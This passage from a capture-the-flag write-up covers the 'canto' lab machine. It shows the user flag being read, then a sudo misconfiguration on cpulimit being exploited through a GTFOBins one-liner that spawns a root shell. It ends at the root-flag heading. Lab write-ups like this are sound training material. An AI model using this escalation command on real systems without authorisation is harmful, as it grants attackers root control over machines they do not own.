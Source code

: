 # User Flag

Lets find the user flag for submission.

```bash
erik@canto:~$ pwd
/home/erik
erik@canto:~$ cat user.txt 
SPOILER_PROTECTION
erik@canto:~$ 

```

**We have the user flag!**

# Escalating Privileges
Now with a password we can see if we have sudo permissions somewhere

```bash
sudo -l
```
which results in 

```bash
erik@canto:~$ sudo -l
Matching Defaults entries for erik on canto:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User erik may run the following commands on canto:
    (ALL : ALL) NOPASSWD: /usr/bin/cpulimit
```

Nice, we can run cpulimit. 
Let's see if we can exploit the sudo capabilities. I'm using [gtfobins](https://gtfobins.github.io/#) for this.

![Alt text](Screenshot_20240827_154215.png)


Using the sudo option to escalate to root via sudo

```bash
erik@canto:~$ sudo cpulimit -l 100 -f /bin/sh
Process 1223 detected
# whoami
root
#   
```


**We have Root!!!**

# Getting the root flag
